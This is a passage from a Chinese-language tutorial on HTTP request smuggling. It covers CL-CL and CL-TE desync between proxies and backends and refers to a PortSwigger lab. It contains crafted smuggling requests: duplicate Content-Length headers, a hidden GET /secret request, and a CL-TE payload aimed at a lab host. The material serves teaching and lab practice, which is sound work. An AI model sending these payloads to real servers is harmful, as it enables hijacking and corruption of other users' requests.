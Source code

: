 前端服务器收到该请求，通过读取 `Content-Length`，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对 `Content-Length` 进行处理，由于 `Pipeline` 的存在，它就认为这是收到了两个请求，分别是

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```http<br># 第一个<br>GET / HTTP/1.1\r\n<br>Host: example.com\r\n<br><br># 第二个<br>GET /secret HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

### [](#22-cl-cl)2.2 CL-CL

在 `RFC7230` 的第 `3.3.3` 节中的第四条中，规定当服务器收到的请求中包含两个 `Content-Length`，而且两者的值不同时，需要返回 400 错误。

但是总有服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回 400 错误，但是中间代理服务器按照第一个 `Content-Length` 的值对请求进行处理，而后端源站服务器按照第二个 `Content-Length` 的值进行处理。

此时恶意攻击者可以构造一个特殊的请求：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: example.com\r\n<br>Content-Length: 8\r\n<br>Content-Length: 7\r\n<br><br>12345\r\n<br>a<br>``` |

中间代理服务器获取到的数据包的长度为 8，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为 7。当读取完前 7个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的缓冲区去还剩余一个字母 `a`，对于后端服务器来说，这个 `a` 是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其它的正常用户对服务器进行了请求，假设请求如图所示：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>GET /index.html HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

从前面我们也知道了，代理服务器与源站服务器之间一般会重用 TCP 连接。

这时候正常用户的请求就拼接到了字母 `a` 的后面，当后端服务器接收完毕后，它实际处理的请求其实是：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>aGET /index.html HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

这时候用户就会收到一个类似于 `aGET request method not found` 的报错。这样就实现了一次 HTTP 走私攻击，而且还对正常用户的行为造成了影响，而且后续可以扩展成类似于 CSRF 的攻击方式。

但是两个 `Content-Length` 这种请求包还是太过于理想化了，一般的服务器都不会接受这种存在两个请求头的请求包。但是在 `RFC2616` 的第 4.4 节中，规定:`如果收到同时存在 Content-Length 和 Transfer-Encoding 这两个请求头的请求包时，在处理的时候必须忽略 Content-Length`，这其实也就意味着请求包中同时包含这两个请求头并不算违规，服务器也不需要返回 `400` 错误。服务器在这里的实现更容易出问题。

### [](#23-cl-te)2.3 CL-TE

所谓`CL-TE`，就是当收到存在两个请求头的请求包时，前端代理服务器只处理 `Content-Length` 这一请求头，而后端服务器会遵守 `RFC2616` 的规定，忽略掉 `Content-Length`，处理 `Transfer-Encoding` 这一请求头。

chunk 传输数据格式如下，其中 size 的值由 16 进制表示。

Lab 地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3\r\n<br>Connection: keep-alive\r\n<br>Content-Length: 6\r\n<br>Transfer-Encoding: chunked\r\n<br>\r\n<br>0\r\n<br>\r\n<br>G<br>``` |
